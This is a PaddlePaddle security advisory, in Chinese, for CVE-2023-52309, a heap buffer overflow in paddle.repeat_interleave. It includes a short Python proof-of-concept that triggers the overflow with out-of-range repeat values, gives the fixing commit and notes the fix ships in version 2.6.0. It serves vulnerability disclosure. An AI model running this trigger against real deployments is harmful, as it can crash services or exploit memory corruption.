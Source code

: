 ## PDSA-2023-018: Heap buffer overflow in paddle.repeat_interleave

### CVE编号

CVE-2023-52309

### 影响

非法的参数可能导致`paddle.repeat_interleave`堆溢出，PoC代码如下：

```python
import paddle
import numpy as np

x = paddle.to_tensor(np.random.uniform(-6666666, 100000000, [4, 4, 8, 3, 2, 4]).astype(np.float64))
repeats = paddle.to_tensor(np.random.uniform(-2147483648, 2147483647, [2, 1]).astype(np.int32))

paddle.repeat_interleave(x, repeats, axis=-2)
```

### 补丁

我们在commit [19da5c0c4d8c5e4dfef2a92e24141c3f51884dcc](https://github.com/PaddlePaddle/Paddle/commit/19da5c0c4d8c5e4dfef2a92e24141c3f51884dcc)中对此问题进行了补丁。
修复将包含在飞桨2.6.0版本当中。

### 更多信息

请参考我们的[安全指南](../../SECURITY_cn.md)以获得更多关于安全的信息，以及如何与我们联系问题。

### 贡献者

此漏洞由 Tong Liu of CAS-IIE 提交。
